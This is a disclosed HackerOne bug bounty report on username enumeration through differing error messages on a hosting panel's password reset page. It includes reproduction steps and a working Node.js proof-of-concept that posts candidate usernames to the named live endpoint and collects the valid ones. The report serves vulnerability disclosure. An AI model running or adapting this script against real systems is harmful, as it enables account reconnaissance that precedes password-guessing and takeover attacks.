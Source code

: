 # Enumeration of username on password reset page

## Report Details
- **Report ID**: 806151
- **URL**: https://hackerone.com/reports/806151
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-02-27T12:01:26.930Z
- **Disclosed**: 2020-07-05T05:22:57.706Z

## Reporter
- **Username**: codermak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: endless_group

## Vulnerability Information
## Summary:
Reset password page api call, can be used to enumerate usernames based on the error message

## Steps To Reproduce:
[add details for how we can reproduce the issue]

    1. Go to password reset page
    2. Enter username and click submit
    3. Check email for password reset code, open the url in any browser
    4. Change the username in url to somewrong username and click on `Request New Password` button you will get error message saying `No user`
    5. Change the username in url to some username which exists other than which is used in step 2, click on `Request New Password` you will get error message saying `No such username in the request list. Your request may have expired.`
    6. Based on this, if a username does not exists, error message `No User` is shown and if username exists `No such username in the request list. Your request may have expired.` error message is shown.
    7. This can be automated with an username list and easily list of valid usernames can be generated


## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

#### PoC

```
const fetch = require('node-fetch');
let usernames = [
  'codermak',
  'codermmak',
  'codermak2',
  'codermak222'
];
let validUsernames = [];

const request = async (input) => {
  const res = await fetch("https://da.theendlessweb.com:2222/CMD_LOST_PASSWORD", {
    "credentials": "include",
    "headers": {
      "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:73.0) Gecko/20100101 Firefox/73.0",
      "Accept": "*/*",
      "Accept-Language": "en-US,en;q=0.5",
      "Content-Type": "application/x-www-form-urlencoded"
    },
    "referrer": "https://da.theendlessweb.com:2222/lost-password?username=codermak2&code=test",
    "body": `action=code&username=${input}&code=test&json=yes`,
    "method": "POST",
    "mode": "cors"
  });

  const text = await res.text();
  try {
    const result = JSON.parse(text);
    const errMessage = result.error;
    if (errMessage === 'No such username in the request list.  Your request may have expired.') {
      validUsernames.push(input);
    }
  } catch (err) {

  }
};


const main = async () => {
  for (const username of usernames) {
    await request(username);
  }

  console.log(validUsernames);
}

main();
```

## Impact

Attacker can easily find list of large amount of valid usernames by using some common usernames dictionaries avaialble on internet.

## Attachments
No attachments
